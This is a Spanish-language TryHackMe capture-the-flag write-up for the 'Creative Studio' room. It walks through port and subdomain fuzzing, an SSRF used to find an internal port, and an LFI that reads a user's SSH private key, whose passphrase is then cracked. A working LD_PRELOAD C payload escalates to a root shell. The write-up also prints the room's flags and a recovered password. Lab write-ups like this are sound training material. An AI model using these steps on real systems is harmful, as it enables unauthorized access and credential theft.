 # TryHackMe - Creative Studio Writeup

## 1. Escaneo 

Como primer punto, empezaremos con la fase de escaneo de puertos. Utilizaremos la herramienta `nmap`:

```bash
nmap -p- --open -n -Pn -T4 --min-rate 8000 -sVC -sS <HOST> -oN <name> -vvv
```

Podemos ver que tenemos los puertos abiertos `22/ssh` y `80/http`:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora utilizamos la herramienta `whatweb` para buscar más información:

```bash
whatweb <HOST>
```

El escaneo nos devuelve un error porque el objetivo tiene un dominio. Al ejecutar `whatweb` con el dominio, no encontramos nada relevante:

```
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.134.13], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```

Revisando el protocolo HTTP encontramos una página web:

![servidor web creativo](Creativo/creativo.png)

### Enumeración de directorios

Utilizamos la herramienta `ffuf` para buscar directorios ocultos:

```bash
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200
```

Solo encontramos el directorio oculto `assets`, pero no contiene nada relevante. Procedemos a enumerar subdominios:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H "HOST:FUZZ.creative.thm" -fw 6
```

Encontramos el subdominio `beta`. Lo agregamos a `/etc/hosts` y revisamos su contenido. Observamos una página en la URL `beta.creative.thm`, lo que sugiere un posible **SSRF** (Falsificación de Solicitudes del Lado del Servidor).

![creativo](creativo2.png)

Al ingresar a `http://127.0.0.1`, nos redirige a la página principal de "Creativo". Realizaremos un ataque de fuerza bruta para encontrar posibles puertos internos con `ffuf`.

Primero, generamos una lista de puertos:

```bash
seq 65535 > puertos.txt
```

Luego, realizamos el ataque:

```bash
ffuf -w puertos.txt -u http://beta.creative.thm -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```

Resultado:

```
80                      
1337 
```

En el puerto `1337`, encontramos un servidor oculto que tiene un **LFI (Local File Inclusion)**:

![creativo](creativo3.png)

### Explotación de LFI

Al aprovechar el LFI, encontramos un usuario llamado `saad` y accedemos a su archivo `id_rsa`:

![creativo](creativo5.png)

El archivo `id_rsa` está protegido con una contraseña. Utilizamos `ssh2john` para generar un hash y `john the ripper` para crackearlo:

```bash
ssh2john id_rsa > passwd.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
```

Obtenemos la contraseña: `sweetness`. Con esto, accedemos al servidor como `saad` mediante SSH.

### Primera Flag

Al conectarnos con `saad`, obtenemos la primera flag:

```
9a1ce90a7653d74ab98630b47b8b4a84
```

---

## 2. Escalada de privilegios

Al revisar `.bash_history`, encontramos la contraseña de `saad`:

```
saad:MyStrongestPasswordYet$4291
```

Usamos el comando `sudo -l` y descubrimos que podemos escalar privilegios utilizando `LD_PRELOAD`. Seguimos estos pasos:

1. Nos movemos a `/tmp` y creamos un archivo en C con el siguiente código:

```c
#include <stdio.h>
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setgid(0); 
    setuid(0); 
    system("/bin/sh"); 
}
```

2. Lo compilamos:

```bash
gcc -fPIC -shared -o name.so name.c -nostartfiles
```

3. Verificamos que se creó correctamente:

```bash
ls -la name.so
```

4. Ejecutamos el exploit con `ping`:

```bash
sudo LD_PRELOAD=/tmp/name.so ping
```

### Segunda Flag

Con privilegios elevados, obtenemos la flag final:

```
992bfd94b90da48634aed182aae7b99f
```

---

¡Writeup completo! 🚩


